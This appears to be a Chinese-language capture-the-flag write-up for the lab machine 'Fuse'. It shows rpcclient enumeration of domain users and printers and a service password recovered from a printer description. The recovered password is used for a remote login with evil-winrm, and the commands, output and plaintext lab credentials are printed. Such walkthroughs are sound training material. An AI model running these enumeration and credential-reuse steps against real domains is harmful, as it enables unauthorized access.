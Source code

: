 尝试了很多都无法成功，查询了一些可能是账户已经不能修改，需要管理员解除锁定。

后来发现是需要手动输入才可以，不能复制黏贴。囧

![]({{ site.url }}/assets/Fuse_193.assets/20201029171919431_10578.png)

可以使用了

tlavel:EVIL_123456

![]({{ site.url }}/assets/Fuse_193.assets/20201029172820368_6668.png)

逐个检查没有什么，并且很不稳定。
rpcclient -U FABRICORP\\tlavel 10.10.10.193

![]({{ site.url }}/assets/Fuse_193.assets/20201029215810241_5604.png)

继续枚举
```
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[svc-print] rid:[0x450]
user:[bnielson] rid:[0x451]
user:[sthompson] rid:[0x641]
user:[tlavel] rid:[0x642]
user:[pmerton] rid:[0x643]
user:[svc-scan] rid:[0x645]
user:[bhult] rid:[0x1bbd]
user:[dandrews] rid:[0x1bbe]
user:[mberbatov] rid:[0x1db1]
user:[astein] rid:[0x1db2]
user:[dmuir] rid:[0x1db3]
```
![]({{ site.url }}/assets/Fuse_193.assets/20201029215839248_17251.png)
考虑到web页面是打印，枚举一下打印机
```
rpcclient $> enumprinters
	flags:[0x800000]
	name:[\\10.10.10.193\HP-MFT01]
	description:[\\10.10.10.193\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
	comment:[]
```
![]({{ site.url }}/assets/Fuse_193.assets/20201029215902937_17393.png)
成功找到凭证

登录
```
evil-winrm -u svc-print -p '$fab@s3Rv1ce$1' -i fuse.fabricorp.local
```
![]({{ site.url }}/assets/Fuse_193.assets/20201029173913632_9087.png)
